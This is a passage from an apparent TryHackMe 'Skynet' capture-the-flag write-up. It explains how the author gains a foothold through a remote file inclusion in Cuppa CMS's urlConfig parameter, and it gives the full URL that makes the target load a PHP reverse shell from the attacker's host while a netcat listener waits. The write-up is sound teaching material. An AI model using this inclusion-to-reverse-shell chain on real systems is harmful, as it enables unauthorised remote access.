 
# **Foothold**

Let's navigate to the exploit we have found.

![](/assets/img/tryhackme/skynet/Untitled14.png)

The path of the vulnerability is `cuppa/alerts/alertConfigField.php?urlConfig=[FI]`, with the **urlConfig** we can either enter a path for a local file to read or a url that contains a file.

I setup a http server that has a php reverse shell code in it, i then setup a netcat listener on my machine and used the rfi path to server the php code.`http://{target_IP}/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://{attacker_ip}/reverse_shell.php`

![](/assets/img/tryhackme/skynet/Untitled15.png)

